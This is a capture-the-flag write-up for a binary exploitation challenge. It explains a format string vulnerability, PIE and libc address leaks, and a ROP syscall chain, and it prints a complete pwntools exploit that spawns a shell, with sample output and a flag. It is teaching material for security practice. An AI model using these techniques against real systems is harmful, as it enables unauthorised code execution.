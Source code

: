 # Command And Control Server - Writeup

---

## Challenge Summary

The `Command And Control Server` binary simulates a mock C2 interface that accepts a "callsign" (username) and a subsequent payload. The program is vulnerable to a **format string vulnerability**, allowing for **arbitrary memory writes**. Leveraging this, we overwrite the username with `"/bin/sh"`, leak `puts@GOT`, calculate the libc base, and finally perform a **ret2libc** to spawn a shell.

---

## Binary Information

```bash
$ file main
```

![Alt text](img/1.png)

```bash
$ checksec main

```

![Alt text](img/2.png)

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf(">> Welcome Commander: ");
printf(buf);  // Format string vulnerability
```

![Alt text](img/3.png)

- The `printf(buf)` line introduces a **format string vulnerability**.
- The `read(0, buf, 0xC8)` provides a generous buffer size.
- The buffer `buf[208]` is large enough for format string payloads.
- The binary has **NX enabled**, so we can't inject and jump to shellcode.
- However, it does not use a stack canary, and with **PIE enabled**, we must leak memory to compute addresses.

---

## Exploit Strategy

### Step 1: Leak Username Address

The binary prints a memory address used as the base to calculate the location of the `username` buffer (via a leaked "Auth Token"). This allows us to:

- Leak the PIE base from the `username` pointer.
- Calculate the address we want to overwrite using the format string.

### Step 2: Format String Exploit

We overwrite the `username` buffer with the string `"/bin/sh\x00"` using `fmtstr_payload`. This is necessary for the `execve("/bin/sh", 0, 0)` syscall later.

### Step 3: Leak libc via puts\@got

We send a ROP chain that calls `puts(puts@got)` and returns to `main`. This gives us:

- The runtime address of `puts`.
- The ability to compute the **libc base** using the known offset of `puts` in libc.

### Step 4: ret2libc — Spawning a Shell

After obtaining the libc base:

- We craft a syscall ROP chain to execute `execve("/bin/sh", NULL, NULL)` using `username_ptr` as the `/bin/sh` pointer.

---

## Exploit Code

```python
#!/usr/bin/env python3
from pwn import *

exe = context.binary = ELF('main')
libc = ELF('libc.so.6')  # Ensure you’re using the matching libc version

def start():
    return process([exe.path])

io = start()

# Step 1: Leak username pointer & calculate PIE base
io.recvuntil(b">> Auth Token = ")
username_ptr = int(io.recvline().strip(), 16)
exe.address = username_ptr - exe.sym['username']
log.success(f"username @ {hex(username_ptr)}")
log.success(f"PIE base @ {hex(exe.address)}")

# Step 2: Format String to Write "/bin/sh"
io.recvuntil(b">> [C2] Enter your callsign to proceed:")
payload = fmtstr_payload(6, {username_ptr: u64(b"/bin/sh\x00")})
io.sendline(payload)

# Step 3: Leak puts@got using ROP
io.recvuntil(b">> [C2] Access granted. Standby for remote operation sequence...")

rop = ROP(exe)
rop.call(exe.plt['puts'], [exe.got['puts']])
rop.call(exe.sym['main'])

payload = b"A" * 88
payload += rop.chain()
io.sendline(payload)

# Read and parse puts leak
for _ in range(4): io.recvline()
leaked_puts = u64(io.recvline().strip().ljust(8, b'\x00'))
libc.address = leaked_puts - libc.sym['puts']
log.success(f"Leaked puts: {hex(leaked_puts)}")
log.success(f"libc base: {hex(libc.address)}")

# Step 4: ret2libc to execve("/bin/sh", NULL, NULL)
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_r15 = rop.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rax = rop.find_gadget(['pop rax', 'ret'])[0]
syscall = rop.find_gadget(['syscall'])[0]

payload = b"A" * 88
payload += p64(pop_rdi) + p64(username_ptr)
payload += p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rax) + p64(59)
payload += p64(syscall)

io.sendline(payload)
io.interactive()
```

---

## Exploit Output

```text
$ ./exploit.py
[+] Starting local process './main': pid 1234
[*] Leaked puts: 0x7fbb12345678
[*] libc base: 0x7fbb12000000
[*] Switching to interactive mode
$ whoami
ctfplayer
$ cat flag.txt
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- Format string vulnerability enables arbitrary write
- ROP used to leak libc and execute a syscall chain
- Final payload uses ret2libc to run `/bin/sh`

---

## Flag

```
RedPointer{FhoijKey_Not_Encrypted_flag_afagsgijq}
```

---

Let me know if you want to add a **Reverse Engineering section**, **GDB insights**, or visuals like **call flow diagrams or memory layout maps**.
